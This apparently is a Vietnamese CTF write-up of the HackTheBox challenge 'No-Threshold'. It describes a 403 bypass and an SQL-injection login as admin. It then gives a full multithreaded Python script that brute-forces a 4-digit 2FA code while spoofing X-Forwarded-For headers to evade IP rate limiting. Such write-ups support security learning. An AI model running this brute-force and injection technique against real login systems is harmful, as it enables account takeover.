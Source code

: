 ## No-Threshold

![image](../img/10.1.png)
![image](../img/10.2.png)

chỉ có feature login, nhưng khi click vào thì
![image](../img/10.3.png)

lỗi 403 Forbidden với thông báo lỗi by administrator rules

mình research `bypass 403` từ Hacktrick
![image](../img/10.4.png)
ok thành công vào login
![image](../img/10.5.png)

mình view qua source `login.py`
![image](../img/10.6.png)
có thể thấy query trực tiếp được gán value từ biến mà hacker kiểm soát được, dòng 28 dính lỗi SQL injection 100%

tại source entrypoint.sh mình thấy có `username= admin ` được insert vào database, ok vậy là mình đủ dữ liệu để exploit SQL injection
![image](../img/10.7.png)

![image](../img/10.8.png)
nó redirect tới 1 trang 2FA, mình sẽ mở lên
![image](../img/10.9.png)

chỉ cho nhập 4 số, mình confirm được Code chạy từ 0000-9999, nảy số ra brute-force thôi.Nhưng
![image](../img/10.10.png)
có vẻ như nó chặn ip nếu mình req quá nhiều lần, bypass cái này dễ thôi, mình sẽ dùng `X-Forwarded-For`thêm vào header

tiến hành viết script exploit
```
import requests
import sys
from concurrent. futures import ThreadPoolExecutor

def get_combinations_in_array(path):
    with open(path, 'r') as f:
        return f.read().splitlines()


def handle_response(response, combination):
    if "Invalid 2FA Code!" in response.text:
        print(f'Try: {combination}\n')
        return
    elif "flag" in response.text:
        print(f'GOT IT!\n2FA Code: {combination}\n{response.text}\n')
        sys.exit()
    else:
        print(response.text)


def send_request(ip, combination, headers, url):
    headers['X-Forwarded-For'] = ip
    data = {'2fa-code': str(combination)}

    response = requests.post(url, headers=headers, data=data)
    handle_response(response, combination)


def send_all_requests(url, combinations_array):
    base_ip = '192.168.'
    current_ip_suffix = [1, 1]
    headers = {
        'Host': '94.237.49.212:56223',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate',
        'Referer': '94.237.49.212:56223/./auth/verify-2fa',
        'Content-Type': 'application/x-www-form-urlencoded',
        'Content-Length': '13',
        'Origin': '94.237.49.212:56223',
        'DNT': '1',
        'Connection': 'close',
        'Upgrade-Insecure-Requests': '1',
    }

    # Multi-threading requests sending (see python ThreadPoolExecutor lib for more informations)
    with ThreadPoolExecutor(max_workers=100) as executor:
        futures = []

        for i, combination in enumerate(combinations_array, start=1):
            ip = base_ip + str(current_ip_suffix[0]) + '.' + str(current_ip_suffix[1])

            future = executor.submit(send_request, ip, combination, headers, url)
            futures.append(future)

            if i % 5 == 0:
                current_ip_suffix[1] += 1

            if current_ip_suffix[1] > 254:
                current_ip_suffix[1] = 1
                current_ip_suffix[0] += 1

            if current_ip_suffix[0] > 254:
                current_ip_suffix = [1, 1]

            for future in futures:
                future.result()


if __name__ == '__main__':
    combinations_path = 'E:/4-digits-0000-9999.txt'
    url ='http://94.237.49.212:56223/auth/verify-2fa'

    combinations_array = get_combinations_in_array(combinations_path)
    send_all_requests(url, combinations_array)
```
FLAG: `HTB{1_l0v3_h4pr0x1_4cl5_4nd_4ll_1t5_xxxxxxx}`